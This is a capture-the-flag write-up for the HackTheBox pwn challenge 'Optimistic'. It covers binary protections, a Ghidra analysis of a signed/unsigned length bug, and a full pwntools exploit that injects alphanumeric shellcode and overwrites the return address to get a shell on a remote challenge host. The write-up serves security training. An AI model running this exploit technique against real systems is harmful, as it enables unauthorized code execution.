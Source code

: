 ### Optimistic : HTB Challenges : Pwn

Here lets first try to analyze the security features and architecture of the binary.

```bash
$ checksec optimistic
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```bash
$ file optimistic
optimistic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=24f4b065a2eab20657772e85de2af83b2f6fe8b1, for GNU/Linux 3.2.0, not stripped
```
Now lets analyze the binary in Ghidra and as this binary is not striped we can see function names and symbols loading it into Ghidra we see there are two made functions here :

![Ghidra Main Function](./Images/main.png)

![Ghidra Initialize Function](./Images/intialize.png)

and in the initialize function we have an alarm function which alarms us after 30 seconds and stops binary but for making our payload we can try patching this function to get the alarm after 255 seconds to give us a lot of time to work with.

By analyzing the main function in Ghidra we can see that its giving us a Stack address when we press y . and we can see that we are getting the Base Pointer address AND ALSO FURTHER analyzing the binary we see that there is unsigned integer value initialized which is then casted into an integer and compared to the bytes and due to how unsigned and signed integers work we get an integer buffer overflow if we replace that unsigned integer value as -1 which is not in the scope of an unsigned integer and goes to the max value in the unsigned integer which then when casted into integers would convert back to -1 as 255 bytes which is the most for an unsigned integer does not exist in signed integers causing this issue and allowing us to basically conduct or do a stack overflow here.


```python
from pwn import *

def main():
    context(os='linux', arch='amd64')
    # io = process('./optimistic_patched')
    io = remote('139.59.169.46', 30872)
    # First Step is to ennumerate
    padding = 104
    stack_offset = -96   
    # get stack address

    io.sendlineafter(': ', 'y')
    stack_address = io.recvline().decode().strip().split()[-1][2:]
    stack_address = bytes.fromhex(stack_address).rjust(8, b'\x00')
    stack_address = u64(stack_address, endian='big') # To make it easier to work with it with addition to the address and so on
    stack_address += stack_offset
    log.success(f'Gottem: {p64(stack_address)}' )

    # Stack Address calculation :
    # We leaked a stack address but we wanna know its location in relation to the Buffer where we can overflow how many bytes is its difference
    # We would have to jump back 96 bytes to get back to stack as char local_68 in main function is 96 and we gotta jump back to behind that and start of stack

    # Step 2 : Do Buffer Overflow
    io.sendlineafter('Email: ', 'ab')
    io.sendlineafter('Age: ', 'ab')
    io.sendlineafter('Length of name: ', '-1')
    # Alpha Numeric Characters are only allowed in this shellcode
    shellcode = b"XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V"
    padding = b'a'* (padding - len(shellcode))
    payload = shellcode + padding + p64(stack_address)   
    io.sendlineafter('Name: ', payload)
    io.interactive()

main()
```
